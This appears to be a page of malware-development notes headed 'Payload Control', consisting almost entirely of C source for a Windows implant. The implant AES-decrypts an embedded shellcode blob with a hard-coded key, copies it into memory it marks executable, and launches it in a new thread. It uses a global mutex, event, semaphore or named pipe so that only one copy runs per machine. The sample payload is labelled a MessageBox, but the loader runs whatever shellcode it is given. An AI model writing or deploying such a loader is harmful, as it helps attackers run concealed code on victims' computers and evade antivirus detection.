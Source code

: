 # Payload Control

### implant.cpp

<pre class="language-c"><code class="lang-c">#include &#x3C;winternl.h>
#include &#x3C;windows.h>
#include &#x3C;tlhelp32.h>
#include &#x3C;stdio.h>
#include &#x3C;stdlib.h>
#include &#x3C;string.h>
#include &#x3C;wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#include &#x3C;psapi.h>


int AESDecrypt(char* payload, unsigned int payload_len, char* key, size_t keylen) {
	HCRYPTPROV hProv;
	HCRYPTHASH hHash;
	HCRYPTKEY hKey;

	if (!CryptAcquireContextW(&#x26;hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {
		return -1;
	}
	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &#x26;hHash)) {
		return -1;
	}
	if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)) {
		return -1;
	}
	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &#x26;hKey)) {
		return -1;
	}

	if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE*)payload, (DWORD*)&#x26;payload_len)) {
		return -1;
	}

	CryptReleaseContext(hProv, 0);
	CryptDestroyHash(hHash);
	CryptDestroyKey(hKey);

	return 0;
}

// MessageBox 64-bit
unsigned char payload[] = { 0xd8, 0x95, 0xe5, 0x20, 0x51, 0xef, 0x79, 0x11, 0xbf, 0x54, 0xf, 0x3c, 0x26, 0x37, 0xc6, 0x58, 0x6, 0x10, 0xe6, 0xdd, 0xac, 0xbf, 0xfb, 0x3f, 0xaa, 0x94, 0xd0, 0xf3, 0xee, 0x16, 0x1d, 0xbf, 0xc6, 0x72, 0x7d, 0xf5, 0x23, 0x8b, 0xcf, 0x3c, 0xe3, 0xdb, 0xb4, 0x79, 0x2e, 0xb1, 0x72, 0x7d, 0x65, 0x51, 0x89, 0xda, 0x24, 0x18, 0x9e, 0xc6, 0x5f, 0x50, 0x33, 0x93, 0xba, 0xe5, 0x16, 0x2c, 0x9e, 0xd9, 0x3e, 0x44, 0xfa, 0x29, 0x12, 0x95, 0x7, 0xdc, 0x25, 0xdc, 0x65, 0xe2, 0xcf, 0x6e, 0x69, 0xca, 0x62, 0x7c, 0xdb, 0xbe, 0xd7, 0x16, 0x86, 0x4f, 0xac, 0x36, 0x11, 0x3d, 0x48, 0x5b, 0xdd, 0xe3, 0x9a, 0xf8, 0x87, 0xbb, 0x9a, 0x6f, 0x16, 0xfb, 0xc4, 0xb9, 0x39, 0x65, 0x98, 0x6a, 0xf2, 0x2f, 0xc7, 0xb5, 0xa6, 0xcb, 0x66, 0xd6, 0x39, 0x75, 0xaf, 0x84, 0x99, 0x50, 0x2b, 0x92, 0x69, 0xa5, 0x1e, 0xc0, 0x94, 0x77, 0xcd, 0x5d, 0x85, 0x7b, 0xcc, 0xd3, 0x22, 0x7d, 0xe7, 0x52, 0x5e, 0xcb, 0x15, 0x30, 0x37, 0xda, 0xe4, 0x1f, 0x84, 0x97, 0xa, 0xb2, 0x48, 0xc2, 0x4, 0xe0, 0x59, 0x65, 0xa7, 0xe8, 0x42, 0x57, 0x6f, 0x2f, 0x8d, 0xa0, 0x95, 0x50, 0x21, 0xf2, 0xef, 0xd9, 0xda, 0x8c, 0xb, 0x9e, 0x8d, 0xee, 0xa0, 0xa1, 0x91, 0xc7, 0x49, 0xd1, 0x21, 0xf, 0xc, 0x4e, 0xb7, 0x88, 0x60, 0x73, 0xf6, 0x33, 0x3a, 0xcf, 0x90, 0xae, 0x7e, 0x54, 0xbb, 0xdc, 0xca, 0x9d, 0x33, 0x3, 0xca, 0xde, 0x6d, 0x3c, 0xdb, 0xe5, 0xde, 0x3d, 0x1f, 0x20, 0x27, 0x15, 0x8, 0x4f, 0x4f, 0x1e, 0x6f, 0x6, 0x7f, 0x63, 0x1, 0x16, 0x9a, 0xe3, 0xa4, 0xa4, 0x20, 0x5d, 0xaa, 0xc0, 0x69, 0x44, 0xea, 0x6, 0xf0, 0x88, 0xcc, 0x35, 0x39, 0xde, 0xf4, 0x25, 0xb0, 0x1b, 0x5c, 0x7f, 0x35, 0x1e, 0x84, 0x91, 0x9d, 0x8a, 0x70, 0x9a, 0x1e, 0x83, 0xaa, 0xc4, 0x14, 0xe2, 0x59, 0x86, 0x90, 0x18, 0x7e, 0xb4, 0x34, 0x24, 0xbc, 0xfa, 0x6, 0x80, 0x63, 0x76, 0x83, 0xe, 0xb0, 0x13, 0x30, 0x2f, 0xf7, 0x30, 0x31, 0x67, 0xf9, 0xcd, 0xb4, 0x72, 0x22, 0x69, 0x37, 0x47, 0x34, 0xe3, 0x4, 0x9, 0xe1, 0xd2, 0x52, 0xc5, 0x6d, 0x77, 0x7, 0x3d, 0xc7, 0x85, 0x4b, 0xc1, 0xaf, 0xd5, 0x7d, 0x29, 0xba, 0x86, 0xc8, 0xb5, 0x91, 0xa1, 0xbf, 0xf9, 0xd0, 0x8d, 0x77, 0x6c, 0x97, 0x53 };
unsigned char key[] = { 0xcc, 0x35, 0x35, 0x3e, 0x2b, 0x48, 0x2a, 0x24, 0xac, 0xa6, 0xc9, 0xbb, 0xa8, 0xb9, 0xdf, 0xc7 };

HANDLE hSync;
#define SYNCER "Global\\SyncMe"
#define PIPENAME "\\\\.\\pipe\\SyncMe"
#define MUTEX 1
#define EVENT 2
#define SEMAPH 3
#define PIPE 4

<strong>BOOL IsPayloadRunning(int method) {
</strong>
	BOOL ret = FALSE;

	// use global mutant
	if (method == MUTEX) {
		hSync = CreateMutexA(NULL, FALSE, SYNCER);

		if (GetLastError() == ERROR_ALREADY_EXISTS) {
			CloseHandle(hSync);
			ret = TRUE;
		}
	}
	// use global Event
	else if (method == EVENT) {
		hSync = CreateEventA(NULL, TRUE, FALSE, SYNCER);

		if (GetLastError() == ERROR_ALREADY_EXISTS) {
			CloseHandle(hSync);
			ret = TRUE;
		}
	}
	// use global Semaphore
	else if (method == SEMAPH) {
		hSync = CreateSemaphoreA(NULL, 0, 100, SYNCER);

		if (GetLastError() == ERROR_ALREADY_EXISTS) {
			CloseHandle(hSync);
			ret = TRUE;
		}
	}
	// use named Pipe
	else if (method == PIPE) {
		hSync = CreateNamedPipeA(PIPENAME, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE, PIPE_UNLIMITED_INSTANCES, 1024, 1024, 0, NULL);

		if (GetLastError() == ERROR_ALREADY_EXISTS) {
			CloseHandle(hSync);
			ret = TRUE;
		}
	}

	return ret;
}

//int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
int main(void) {

	void* exec_mem;
	BOOL rv;
	HANDLE th;
	DWORD oldprotect = 0;
	unsigned int payload_len = sizeof(payload);

	LoadLibraryA("user32.dll");

	// Check if the payload is already running on the machine
	if (IsPayloadRunning(MUTEX)) {
		printf("We're already alive!\n");
		return 0;
	}

	// Allocate memory for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// Decrypt payload
	AESDecrypt((char*)payload, payload_len, (char*)key, sizeof(key));

	// Copy payload to allocated buffer
	RtlMoveMemory(exec_mem, payload, payload_len);

	// Make the buffer executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &#x26;oldprotect);

	// If all good, launch the payload
	if (rv != 0) {
		th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
		printf("Wait for it...");
		WaitForSingleObject(th, INFINITE);
		CloseHandle(hSync);
	}

}


</code></pre>
